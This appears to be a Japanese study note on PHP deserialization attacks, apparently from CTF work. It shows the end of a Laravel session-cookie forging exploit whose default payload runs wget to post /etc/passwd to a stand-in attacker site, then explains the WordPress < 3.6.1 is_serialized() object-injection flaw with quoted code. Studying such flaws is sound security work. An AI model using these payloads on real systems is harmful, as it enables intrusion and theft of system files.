 ```python
                $iv = base64_encode($iv);
                $mac = hash_hmac('sha256', $iv.$value, $key);
                $json = json_encode(compact('iv', 'value', 'mac'));
                return base64_encode($json);
            }

            function decrypt($payload, $unserialize = false) {
                global $cipher, $key;
                $payload = json_decode(base64_decode($payload), true);
                $iv = base64_decode($payload['iv']);
                $decrypted = openssl_decrypt(
                    $payload['value'], $cipher, $key, 0, $iv
                );
                return $unserialize ? unserialize($decrypted) : $decrypted;
            }

    /* // Laravel Encryptor */

            $cipher = 'AES-256-CBC';
            $key = isset($argv[1]) ? $argv[1] : 'ABCDEF1234567890ABCDEF1234567890';
            $cmd = isset($argv[2]) ? $argv[2] : "system('wget --post-data \"`cat /etc/passwd`\" https://attacker_site/');";
            
            if (substr($key, 0, 7) == 'base64:') {
                $key = base64_decode(substr($key, 7));
            }
            
            echo 'Cookie: volgactf_task_session='.encrypt(generateChain($cmd));
        }
```
## WordPress < 3.6.1 (is_serialized()) PHP Object Injection
- 概要   
wordpressではユーザーのメタデータ(名前とかの情報)をシリアライズしたりしなかったりしてデータベースに保存する。そのため、メタデータを取得するときには`unserialize`するべきデータとするべきではないデータ(そもそもシリアル化されてないデータ)の2種類存在するので、`unserialize`したりしなかったりする必要がある。   
ここで、じゃあ入力に`i:1;`を入れれば、このままデータベースに保存されて、データベースから取り出すときに`unserialize`されて`1`を取得するのでは？って思うがそうはならない。入力が`i:1;`の場合、`is_serialized()`でシリアル化されたデータと判断して、さらにもう一回シリアライズして`s:4:"i:1;";`としてデータベースに保存する。   
これによって一応シリアライズされたデータを挿入しても`unserialize`しないようになっている。   
しかし、その「データがシリアル化されているかどうか」を判断する`is_serialized()`メソッドで、`i:1;𝌆`という文字列の場合、最後が`;`,`}`で終わっていないのでシリアル化されているとはみなさずにこのままデータベースに保存しようとするが、MySQLではこの`𝌆`というUnicode文字列を扱えないので捨てられて`i:1;`として保存されてしまう。   
これによってデータベースから取り出すときにシリアライズされたデータとみなして`unserialize`されてしまう！   
つまり、`O:4:"Test":{...}𝌆`的なPayloadをユーザーのメタデータとして登録すれば、そのデータを取り出すときに`unserialize`されてRCEできるかも！ってこと。   
- 例   
メタデータをデータベースから取得する`get_metadata()`は以下をする。   
```php
if ( isset($meta_cache[$meta_key]) ) {
    if ( $single )
        return maybe_unserialize( $meta_cache[$meta_key][0] );
    else
        return array_map('maybe_unserialize', $meta_cache[$meta_key]);
}
```
`maybe_unserialize`は以下の通りでシリアライズされたデータなら`unserialize`、そうでないならそのまま返す。   
```php
function maybe_unserialize( $original ) {
    if ( is_serialized( $original ) ) // don't attempt to unserialize data that wasn't serialized going in
        return @unserialize( $original );
    return $original;
}
```
`is_serialized()`は以下の通りで、シリアライズされたデータかどうか判断している。   
```php
function is_serialized( $data ) {
```